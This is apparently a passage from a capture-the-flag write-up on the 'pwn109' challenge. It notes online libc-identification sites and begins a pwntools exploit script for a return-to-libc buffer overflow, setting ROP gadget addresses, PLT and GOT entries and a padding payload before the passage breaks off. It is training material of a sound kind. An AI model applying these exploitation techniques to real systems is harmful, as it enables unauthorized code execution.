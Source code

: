 ![picture 76](/assets/images/78851e5717a3ad93450670f5ffbac5c5c21b7fc8a68bfdf86f9473b61174f877.png)  

We can determine which libc has been used, even online on like https://libc.tip or https://libc.nullbyte.cat which already displays offsets!

![picture 77](/assets/images/014a835c552cd9fb420471450a780bd2497e05a63047a7426220af5db73a0464.png)  

Final Exploit
```python
from pwn import *

context.binary = binary = ELF("./pwn109.pwn109",checksec=False)

pop_rdi_ret = p64(0x00000000004012a3)
ret = p64(0x000000000040101a)

main = p64(binary.symbols.main)
plt_puts = p64(binary.plt.puts)
got_puts = p64(binary.got.puts)
got_gets = p64(binary.got.gets)
got_setvbuf = p64(binary.got.setvbuf)

payload = b"A"*0x20
```